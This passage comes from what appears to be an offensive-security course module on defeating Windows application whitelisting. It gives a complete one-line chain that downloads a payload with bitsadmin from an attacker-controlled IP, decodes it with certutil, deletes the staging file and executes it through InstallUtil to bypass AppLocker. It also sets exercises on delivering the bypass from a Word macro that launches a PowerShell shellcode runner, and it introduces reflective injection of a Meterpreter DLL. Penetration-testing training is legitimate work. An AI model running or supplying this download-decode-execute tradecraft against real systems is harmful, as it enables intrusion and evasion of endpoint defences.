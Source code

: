 Since all of these commands are executed sequentially we can combine them on the command line through the && syntax:[^&&]

```
C:\Users\student>bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe  
```

> Listing 26 - Complete combined command to download, decode and execute the bypass

Our bypasses were again successful. Very Nice.

In this section, we further developed our tradecraft to allow arbitrary C# execution and unrestricted PowerShell execution despite application whitelisting. We are now able to reuse our existing client-side code execution techniques from Microsoft Office.

#### Exercises

1. Implement the constrained language mode bypass using InstallUtil as demonstrated in this section.
2. Create or modify a Microsoft Word macro to use the whitelisting bypass and launch a PowerShell shellcode runner.

1

(Microsoft, 2017), [https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool](https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5223-1)

2

(Microsoft, 2020), [https://docs.microsoft.com/en-us/dotnet/api/system.configuration.install.installer?view=netframework-4.8](https://docs.microsoft.com/en-us/dotnet/api/system.configuration.install.installer?view=netframework-4.8) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5223-2)

3

(Microsoft, 2017), [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5223-3)

4

(Microsoft, 2017), [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5223-4)

### 11.3.4. Reflective Injection Returns

In an earlier module, we used the _Invoke-ReflectivePEInjection_ PowerShell script to inject an unmanaged Meterpreter DLL into a process with reflective DLL injection. However, in a previous section, we enabled AppLocker DLL rules to block untrusted DLLs. Let's try to leverage InstallUtil to bypass AppLocker and revive the powerful reflective DLL injection technique.
